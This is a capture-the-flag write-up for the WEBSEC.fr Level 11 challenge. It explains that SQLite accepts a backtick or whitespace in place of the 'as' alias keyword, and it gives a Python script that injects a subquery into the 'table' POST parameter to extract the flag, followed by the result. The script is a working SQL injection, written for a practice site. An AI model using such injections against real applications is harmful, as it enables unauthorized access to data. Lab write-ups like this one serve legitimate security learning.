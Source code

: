 # WEBSEC.fr Level 11

`sqLite` 에서 `as` 는 \`혹은  `whitespace` 로 치환 가능

**ex** ; 

- `select a as b`
- select a ` b
- select a b



## Exploit - Python Code

```python
from requests import *
import re

url = 'http://websec.fr/level11/index.php'

def data(i):
    return {
    'user_id': i,
    'table': '(select 3 id,enemy username from costume)',
    'submit': 'submit'
    }

for i in range(1,100):
    res = post(url, data=data(i))
    if "WEBSEC{" in res.text:
        flag = re.findall("WEBSEC\{(.*?)\}",res.text)[0]
        print("flag: WEBSEC{"+flag+"}")
        break
```



## Result

```bash
flag: WEBSEC{Who_needs_AS_anyway_when_you_have_sqlite}
```

